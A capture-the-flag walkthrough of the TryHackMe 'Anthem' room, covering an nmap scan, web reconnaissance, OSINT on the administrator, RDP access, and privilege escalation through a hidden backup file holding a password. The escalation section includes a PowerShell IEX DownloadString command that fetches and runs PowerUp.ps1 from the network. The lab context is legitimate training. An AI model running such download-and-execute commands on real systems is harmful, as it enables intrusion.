










THM: Anthem
Table of Contents
After a long time of not messing around with any CTFs, I decided to give anthem a shot and see how far I could go on my own.
Reconnaissance
Port Scanning
First things first, let’s try to get some information about the target machine, checking all ports and saving the output for future use:
sudo nmap -sSV -p- 10.10.201.121 -oA nmap.out -T4
Starting Nmap 7.60 ( https://nmap.org ) at 2023-10-21 08:34 BST Nmap scan report for ip-10-10-201-121.eu-west-1.compute.internal (10.10.201.121) Host is up (0.00045s latency). Not shown: 65532 filtered ports PORT STATE SERVICE VERSION 80/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP) 3389/tcp open ms-wbt-server Microsoft Terminal Services 5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP) MAC Address: 02:20:2B:0A:0A:AD (Unknown) Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows Service detection performed. Please report any incorrect results at https://nmap.org/submit/ . Nmap done: 1 IP address (1 host up) scanned in 458.11 seconds
Checking the output we see that there are two services worth noting:
- A web server at 80
- An RDP server at 3389 (the protocol was not known to me, but googling it gives us this answer)
Getting some more information from the web server can not hurt.
Web Analysis
I always like to use burp suite (or zap for that matter), when I first start interacting with a website. It saves me the trouble of manually checking the HTML contents of each page (in case I want to do it), and also maps quite nicely the target host.
[X]Launch BurpSuite[X]Properly set FoxyProxy to burp, allowing us to intercept the traffic[X]Turn intercept off[X]Visit target machine’s website[X]Go to Burp/Target, set the given machine as in scope, limiting what Burp stores, making for a relatively clutter-free environment[X]Start moving
Using https://github.com/hakluke/hakrawler while passing all the traffic through Burp’s proxy might also be beneficial, but at this point I like manually checking every page.
Random Findings
While randomly clicking everywhere I could find, I got to the page of a writer (Jane Doe), which included a flag at a suspiciously obvious location.

Figure 1: A flag :P
Robots.txt, Security.txt, Sitemap.xml
Visiting those files is a must when checking websites (even though the
writer might occasionally forget about them), and robots.txt did not
disappoint. Aside from giving as a direct flag, it showed that the
target host uses the Umbraco CMS, and it’s sign-in page is also revealed.

Figure 2: Robots.txt contents

Figure 3: Umbraco Sign-in Page
Sadly, however, security.txt and sitemap.xml turned out to be empty,
lacking any information.
Finding the administrator
At this point we have a lot of information about the target system, yet no information on the administrator (other than the contents of an article informing us of his passing), so we need to dig a little bit more.
I got relatively stuck here, so I started searching through the pages’ HTML hoping that a comment might reveal their identity. (As you can see in the images below, after thinking of the possibility that a flag exists hidden there, I searched with ’thm’, to make sure I did not miss anything).

Figure 4: Another random flag found during this stage

Figure 5: Another random flag
After skimming through the pages and realizing that the information I wanted is not there, I tried the default credentials on the Umbraco web portal, hoping that (since its a common misconfiguration) no one had bothered changing them:

Figure 6: No luck
At this point I seriously considered bruteforcing Jane Doe’s RDP
credentials (knowing that her email is jd@anthem.com). I did not,
though, due to this statement in the problem’s definition:
In this room, you don’t need to brute force any login page. Just your preferred browser and Remote Desktop.
Since there were no input fields, nor parameters to check for injections and the website seemed like a static one, performing OSINT for the administrator was the only logical next step:
- I thought I had seen the article “written for him” somewhere, so I googled it, and turns out, that in its complete form, refers to ’Solomon Grundy’, which (after checking with THM’s answer), turns out to be the admin’s name
- Their email, asked elsewhere, is easy enough to derive knowing that: Jane Doe translates to jd.
Trying RDP out
We now know the administrator’s username, and we have a potential password, so checking RDP out seems like a good choice: it was.

Figure 7: Got the root flag
After answering the questions on THM I realized that I had missed one, presumably hidden within the source code, nice

Figure 8: Completing the last web flag
Privilege Escalation
Having limited experience with windows, I relied heavily on PayloadsAllTheThings, testing this first:
bypass IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1');
It did not seem to work, and figuring that getting admin rights would be much simpler since the hint was “it is hidden”, I decided to manually check some of the most common folders I had access to:
- In Documents there was an RDP file hidden, getting my hopes up, before I realized that there were no parameters saved on it, meaning that it was useless.
- After checking the rest of the hard drive, I saw a hidden folder titled backup. Promising
Inside backup there was a file called restore, which I had no
permission to read, but seeing that I was the owner, I edited its
properties so that I could open it properly:

Figure 9: Got a password-like string
Administrator:newlyFoundString
Seems like a good combination to choose, so I try to view
Administrator’s home folder:

Figure 10: Final Flag
’twas good.